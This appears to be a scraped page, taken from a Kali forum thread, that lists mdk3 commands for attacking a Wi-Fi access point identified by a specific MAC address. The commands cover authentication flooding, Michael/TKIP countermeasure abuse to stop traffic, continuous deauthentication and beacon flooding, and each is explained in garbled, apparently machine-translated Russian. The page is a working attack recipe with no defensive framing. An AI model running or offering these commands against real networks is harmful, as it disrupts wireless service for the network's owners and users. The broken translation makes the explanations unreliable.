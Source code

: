 https://forums.kali.org/showthread.php?19498-MDK3-Secret-Destruction-Mode

mdk3 wlan0mon a -a 30:B5:C2:F1:0F:46 -m
Это заливает целевой AP с фальшивыми клиентов

mdk3 wlan0mon m -t 30:B5:C2:F1:0F:46
Это приводит Майкла провал и остановит беспроводного трафика. Тем не менее, это работает только если цель AP поддерживает TKIP. (Может быть АЕС + TKIP)

mdk3 wlan0mon d -b blacklist -c X
Это удерживает непрерывную deauth в сети. Если эта атака не запускается, убедитесь, пустой текстовый документ в корневой папке с именем blacklist. Оставьте его пустым, как mdk3 автоматически заполняет список.

mdk3 wlan0mon b -t 30:B5:C2:F1:0F:46 -c X
Это заливает кучу поддельных точек доступа к любым клиентам в диапазоне (эффективной только окон клиентов и, возможно, некоторые другие устройства, Mac защищены от этого).

Вы будете знать, когда П. уже сброшены путем проверки с
wash -i wlan0mon -C

или если объект показывает канал -1 и МБ показывает -1 в Airodump.

mdk3 wlan0mon a -a 30:B5:C2:F1:0F:46 -m
mdk3 wlan0mon b -a 30:B5:C2:F1:0F:46 -n " name_of_AP" -h -c [no of channel]
mdk3 wlan0mon d -a 30:B5:C2:F1:0F:46 -c [no of channel] 
mdk3 wlan0mon m -t 30:B5:C2:F1:0F:46